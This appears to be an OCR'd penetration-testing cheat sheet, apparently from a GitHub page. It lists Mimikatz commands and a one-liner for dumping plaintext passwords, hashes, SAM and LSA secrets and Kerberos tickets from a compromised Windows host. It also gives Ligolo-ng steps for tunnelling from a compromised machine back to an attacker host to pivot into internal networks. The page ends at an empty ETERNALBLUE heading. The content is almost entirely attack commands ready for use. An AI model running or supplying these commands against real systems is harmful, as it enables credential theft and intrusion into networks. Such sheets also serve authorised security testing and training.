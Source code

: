 # Mimikatz

*[privilege::debug]{.underline}*

*[sekurlsa::logonpasswords #hashes and plaintext passwords]{.underline}*

*[sekurlsa::credman]{.underline}*

*[lsadump::sam]{.underline}*

*[lsadump::lsa /patch #both these dump SAM]{.underline}*

*[mimikatz \"lsadump::secrets\" exit]{.underline}*

*[lsadump::cache]{.underline}*

*[#OneLiner]{.underline}*

*[.\\mimikatz.exe \"privilege::debug\" \"sekurlsa::logonpasswords\"
\"exit\"]{.underline}*

*[privilege::debug]{.underline}*

*[mimikatz token::elevate]{.underline}*

*[sekurlsa::logonpasswords]{.underline}*

*[sekurlsa::tickets]{.underline}*

# Ligolo-ng

*[#Creating interface and starting it.]{.underline}*

*[sudo ip tuntap add user \$(whoami) mode tun ligolo]{.underline}*

*[sudo ip link set ligolo up]{.underline}*

*[#Kali machine - Attacker machine]{.underline}*

*[./proxy -laddr \<LHOST\>:9001 -selfcert]{.underline}*

*[#windows or linux machine - compromised machine]{.underline}*

*[./agent -connect \<LHOST\>:9001 -ignore-cert]{.underline}*

*[#In Ligolo-ng console]{.underline}*

*[session #select host]{.underline}*

*[ifconfig #Notedown the internal network\'s subnet]{.underline}*

*[start #after adding relevent subnet to ligolo interface]{.underline}*

*[#Adding subnet to ligolo interface - Kali linux]{.underline}*

*[sudo ip r add \<subnet\> dev ligolo]{.underline}*

# ETERNALBLUE Exploitation
